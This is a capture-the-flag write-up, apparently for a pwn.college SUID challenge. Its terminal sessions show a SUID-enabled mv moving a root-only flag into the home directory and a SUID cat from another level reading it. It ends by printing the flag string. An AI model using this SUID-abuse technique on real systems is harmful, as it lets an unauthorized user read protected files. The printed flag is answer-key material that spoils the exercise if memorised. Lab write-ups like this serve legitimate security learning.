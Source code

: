 
I think this is the most ridiculously funny and interesting problem in this whole challenge.

https://unix.stackexchange.com/questions/131180/how-to-move-a-file-without-preserving-permissions

https://opensource.com/article/19/8/moving-files-linux-without-mv

After reading these article, I came to the conclusion that there is no way to move a file using `mv` command without preserving its attributes.

```bash
hacker@program-misuse-level-40:~$ /challenge/babysuid_level40 
Welcome to /challenge/babysuid_level40!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/mv.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level40) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/mv!
hacker@program-misuse-level-40:~$ ls
Desktop  demo
hacker@program-misuse-level-40:~$ mv /flag /home/hacker/
hacker@program-misuse-level-40:~$ ls
Desktop  demo  flag
hacker@program-misuse-level-40:~$ ls -l flag
-r-------- 1 root root 57 Jan  3 11:10 flag
hacker@program-misuse-level-40:~$ cat flag
cat: flag: Permission denied
```

After trying more than two hours, I came to an amazing idea. 

You see through the whole challenge, the `home` directory stays the same. You create a file, it will be there for the whole challenges. So If I move the file from the `root` directory to `home` directory, it will stay there forever.

Now if I go to the first challenge of this module, `Babysuid 1` where the `SUID` bit for `cat` has been set, I can `cat` the flag. Boom! You Got The Flag for `Babysuid 40`.

```bash
hacker@program-misuse-level-1:~$ ls
Desktop  demo  flag
hacker@program-misuse-level-1:~$ ls -l /usr/bin/cat
-rwxr-xr-x 1 root root 43416 Sep  5  2019 /usr/bin/cat
hacker@program-misuse-level-1:~$ /challenge/babysuid_level1 
Welcome to /challenge/babysuid_level1!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/cat.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level1) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cat!
hacker@program-misuse-level-1:~$ ls -l /usr/bin/cat
-rwsr-xr-x 1 root root 43416 Sep  5  2019 /usr/bin/cat
hacker@program-misuse-level-1:~$ cat flag
pwn.college{09VJVeI9yMsKVaZRob4F_3lfkKm.0lM4EDL0AjNzQzW}
```

